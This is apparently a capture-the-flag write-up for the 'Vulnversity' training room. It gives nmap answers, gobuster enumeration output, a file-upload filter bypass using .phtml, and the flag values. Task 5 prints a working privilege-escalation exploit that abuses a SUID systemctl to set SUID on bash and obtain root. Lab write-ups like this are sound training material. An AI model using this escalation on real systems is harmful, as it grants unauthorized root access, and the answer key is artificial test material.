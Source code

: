 # Notes for the room "Vulnversity"

## Tasks 

### Task 2
(See the nmap folder for details)


Scan the box, how many ports are open?

```
Answer: 6
```

What version of the squid proxy is running on the machine?

```
3.5.12
```

How many ports will nmap scan if the flag -p-400 was used?

```
400
```

Using the nmap flag -n what will it not resolve?

```
DNS
```

What is the most likely operating system this machine is running?

```
Ubuntu
```

What port is the web server running on?

```
3333
```

### Task 3

What is the directory that has an upload form page?

Command:
```
└─$ gobuster dir -u http://10.10.195.42:3333 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.195.42:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/27 10:33:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.195.42:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.195.42:3333/css/]   
/js                   (Status: 301) [Size: 316] [--> http://10.10.195.42:3333/js/]    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.195.42:3333/fonts/] 
/internal             (Status: 301) [Size: 322] [--> http://10.10.195.42:3333/internal/]
Progress: 15361 / 220561 (6.96%)                                                       ^C
[!] Keyboard interrupt detected, terminating.
                                                                                        
===============================================================
2021/05/27 10:33:59 Finished
===============================================================
                                                                   
```

Answer:

```
/internal/
```

### Task 4

Try upload a few file types to the server, what common extension seems to be blocked?

```
.php
```

Run this attack, what extension is allowed?

```
.phtml
```

What is the name of the user who manages the webserver?

```
bill
```

What is the user flag?

```
8bd7992fbe8a6ad22a63361004cfcedb
```

### Task 5

On the system, search for all SUID files. What file stands out?

Used this command:

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Answer:

```
/bin/systemctl
```

Become root and get the last flag (/root/root.txt)

Used the exploit like this:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Then just type `bash -p` and you are root

Answer:

```
a58ff8579f0a9270368d33a9966c7fd5
```
